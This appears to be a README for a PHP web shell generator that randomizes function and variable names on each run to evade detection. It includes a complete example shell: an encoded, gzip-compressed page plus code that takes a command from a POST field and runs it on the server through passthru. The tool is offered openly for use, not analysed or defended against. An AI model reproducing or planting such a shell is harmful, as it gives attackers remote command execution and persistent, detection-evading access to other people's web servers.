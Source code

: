 2233.php
========

## Overview

2233.php is a webshell generator, it generates the function and variable names for a web shell on each run, and spits them to stdout.

## Usage

    $ php -f 2233.php

...and then a new web shell pops out.
    
## Example Shell
    <?php
    $LjFeymw9ObY = gzinflate(base64_decode("dVBNa8JAEL33V0wXK7UoiYK0NWugh+Khhwqtpfa2STYmmN1JkwmaSv97d41iFDosw3y+ffN4Qirzr8AYT6SImnCfllRn8pRbS3Ve0Q4CEa5XBVY6GoSYYTGBYhXcjsbjPhxdz4NNGlEygaHr3ni/ZzB3sIMYNQ3K9EeaiVG+9aCF5PbBPoOxn4qFSrN6Ago1lrkIJVynKseChKYL5ACj+n9+rqXWuN7F4ubhU3yUNF8udm0mw3szfnTtHe605OHOSTpuKbRUjLFQIEJKUU9ZQfp7+TR7VLNnBmk0ZbbLQElK0GTz17d3dq4430sOVOdyykhuiYEWysRxGQp3/bL5WjAQFWGIKs8kmQ7GcVOKMazKCzijn/Zh1F2R1xUq94b2ElvjQUWE+vBTWQUqJeZ3Oh3uNJ3WTY6lfTg3xMiowPNC+n8="));
    function uVBE59z4Q($tktqPadnM){
        echo "<w8XaVstPYU>$ ".$tktqPadnM."</w8XaVstPYU><br>";
        echo passthru($tktqPadnM." 2>&1");
    }
    @$lEqaCYzNli2=$_POST["fsca0kKwZU"];
    echo preg_replace("/rtnqYAG9mGE/", basename($_SERVER["SCRIPT_NAME"]), $LjFeymw9ObY);
    if (isset($lEqaCYzNli2)){
        uVBE59z4Q($lEqaCYzNli2);
    }
    else {
        uVBE59z4Q("#");
    }
    __halt_compiler/*
    */();


They're all pretty much the same format, just randomized variable/function names.

## Licence

MIT.
